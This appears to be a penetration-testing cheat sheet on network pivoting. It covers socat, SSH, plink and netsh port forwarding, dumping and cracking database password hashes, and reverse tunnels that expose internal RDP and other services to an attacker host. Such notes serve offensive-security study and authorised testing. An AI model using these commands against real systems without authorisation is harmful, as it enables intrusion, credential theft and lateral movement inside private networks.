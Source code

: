 # Tunneling

## Port forwarding

### Socat

Run a Socat tunnel on the gateway to the database:
```
gateway$ socat -ddd TCP-LISTEN:2345,fork TCP:DbHostIP:5432
```
and connect to the DB directly from Kali (and retrieve password hashes):
```
kali$ psql -h GatewayIP -p 2345 -U postgres
> \l
> \c mydb
> select table_schema,table_name from information_schema.tables where table_name like '%user%;
> \o hashes.txt
> select * from user_table
> \o
> \q
```
Crack the hashes:
```
kali$ hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt # Atlassian hashcat code: hashcat -h
kali$ vim afterhashcat.txt
kali$ tr -d ' ' hashes.txt | awk -F'|' '(NR >2) {print $2, $17}' > loginpass.txt
kali$ vim loginpass.txt # clean ?
kali$ awk -F' ' '{a[$1]=a[$1]?a[$1]":"$2:$2":"$1;}END{for (i in a) print a[i];}' loginpass.txt afterhashcat.txt | awk -F ':' '$3 {print $1, $3}' > final.txt
```

Notes:
- Confluence config file: `/var/atlassian/application-data/confluence/confluence.cfg.xml`
- Awk tips: https://www.theunixschool.com/2012/06/awk-10-examples-to-group-data-in-csv-or.html

### Ssh

| WAN | DMZ | Inside LAN |
|-----|-----|------------|
| Kali | Gateway | DB |
| IpAttacker | IpDmzOut - IpDmzIn | IpDeepIn |

```
python3 -c 'import pty; pty.spawn("/bin/sh")' # python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'
nc -zv -w 1 $IP $Port # listen, verbose, timeout 1sec

IpDmzOut$ ssh -N -L 0.0.0.0:$PortDmzOut:$IpDeepInternal:$PortDeepInternal user@$IpDmzIn # from $IpDmzOut: out | dmz | in
Kali$ smbclient -p $PortDmzOut -L //$IpDmzOut/ -U someuser --password=somepass

IpDmzOut$ ssh -N -D 0.0.0.0:$PortDmzOut user@$IpDmzIn
Kali$ vi /etc/proxychains4.conf
    socks5 $IpDmzIn $PortDmzOut
Kali$ proxychains smbclient -L //$IpDeepInternal/ -U someuser --password=somepass
Kali$ proxychains nmap -vvv -sT --top-ports=20 -Pn $IpDeepInternal

ssh -N -R localhost:2345:$IpDmzIn:$PortDmzIn user@IpAttacker

```

### Windows

#### Ssh.exe

```
Windows PS> ssh.exe -N -R $ListeningPort user@$IpAttacker
Kali$ ss -lntpu # check
Kali$ vim /etc/proxychains4.conf
    socks5 127.0.0.1 $ListeningPort
Kali$ proxychains mycommand myoptions
```

#### Plink

```
KaliRshell$ cmdprompt> C:\path\to\plink.exe -ssh -l kaliuser -pw somepass -R 127.0.0.1:9833:127.0.0.1:3389 $IpAttacker
KaliRshell$ cmdprompt> KaliNormalShell$ ss -ntplu # check
Kali$ xfreerdp /u:rdp_user /p:rdp_pass /v:127.0.0.1:9833
```

#### Netsh

```
> netsh interface portproxy add v4tov4 listenport=2222 listenaddress=$IpDmzOut connectport=22 connectaddress=$IpDmzIn
> netstat -anp TCP | find "2222"
> netsh interface portproxy show all
> netsh advfirewall firewall add rule name="my_rule_name" protocol=TCP dir=in localip=$IpDmzOut localport=2222 action=allow
$ ssh user@$IpDmzOut -p2222
> netsh advfirewall firewall delete rule name="my_rule_name"
> netsh interface portproxy del v4tov4 listenport=2222 listenaddress=$IpDmzOut
> netsh interface portproxy show all
```



